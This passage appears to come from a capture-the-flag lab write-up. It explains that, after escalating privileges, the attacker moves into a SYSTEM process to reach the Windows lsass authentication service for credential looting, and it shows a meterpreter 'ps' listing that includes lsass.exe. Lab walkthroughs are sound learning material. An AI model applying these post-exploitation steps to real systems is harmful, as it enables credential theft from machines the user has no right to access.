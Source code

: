 Ans>

SeTakeOwnershipPrivilege

## Task 5 - Looting

### Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows. First, let's list the processes using the command `ps`. Note, we can see processes being run by NT AUTHORITY\SYSTEM as we have escalated permissions (even though our process doesn't). 

```
meterpreter > ps

Process List
============

 PID   PPID  Name             Arch  Session  User                       Path
 ---   ----  ----             ----  -------  ----                       ----
 0     0     [System Process
             ]
 4     0     System           x64   0
 396   696   svchost.exe      x64   0        NT AUTHORITY\SYSTEM        C:\Windows\System32\svcho
                                                                        st.exe
 416   4     smss.exe         x64   0        NT AUTHORITY\SYSTEM        C:\Windows\System32\smss.
                                                                        exe
 548   540   csrss.exe        x64   0        NT AUTHORITY\SYSTEM        C:\Windows\System32\csrss
                                                                        .exe
 600   540   wininit.exe      x64   0        NT AUTHORITY\SYSTEM        C:\Windows\System32\winin
                                                                        it.exe
 608   588   csrss.exe        x64   1        NT AUTHORITY\SYSTEM        C:\Windows\System32\csrss
                                                                        .exe
 656   588   winlogon.exe     x64   1        NT AUTHORITY\SYSTEM        C:\Windows\System32\winlo
                                                                        gon.exe
 684   696   svchost.exe      x64   0        NT AUTHORITY\SYSTEM        C:\Windows\System32\svcho
                                                                        st.exe
 696   600   services.exe     x64   0        NT AUTHORITY\SYSTEM        C:\Windows\System32\servi
                                                                        ces.exe
 704   600   lsass.exe        x64   0        NT AUTHORITY\SYSTEM        C:\Windows\System32\lsass
                                                                        .exe
 712   600   lsm.exe          x64   0        NT AUTHORITY\SYSTEM        C:\Windows\System32\lsm.e
                                                                        xe
 824   696   svchost.exe      x64   0        NT AUTHORITY\SYSTEM        C:\Windows\System32\svcho
                                                                        st.exe
 892   696   svchost.exe      x64   0        NT AUTHORITY\NETWORK SERV  C:\Windows\System32\svcho
                                             ICE                        st.exe
 940   696   svchost.exe      x64   0        NT AUTHORITY\LOCAL SERVIC  C:\Windows\System32\svcho
                                             E                          st.exe
 1060  696   svchost.exe      x64   0        NT AUTHORITY\LOCAL SERVIC  C:\Windows\System32\svcho
                                             E                          st.exe
 1144  696   svchost.exe      x64   0        NT AUTHORITY\NETWORK SERV  C:\Windows\System32\svcho
                                             ICE                        st.exe
 1272  696   spoolsv.exe      x64   0        NT AUTHORITY\SYSTEM        C:\Windows\System32\spool
                                                                        sv.exe
 1332  696   svchost.exe      x64   0        NT AUTHORITY\LOCAL SERVIC  C:\Windows\System32\svcho
                                             E                          st.exe
 1428  824   WmiPrvSE.exe     x64   0        NT AUTHORITY\NETWORK SERV  C:\Windows\System32\wbem\
                                             ICE                        WmiPrvSE.exe
 1436  696   taskhost.exe     x64   1        Dark-PC\Dark               C:\Windows\System32\taskh
                                                                        ost.exe

```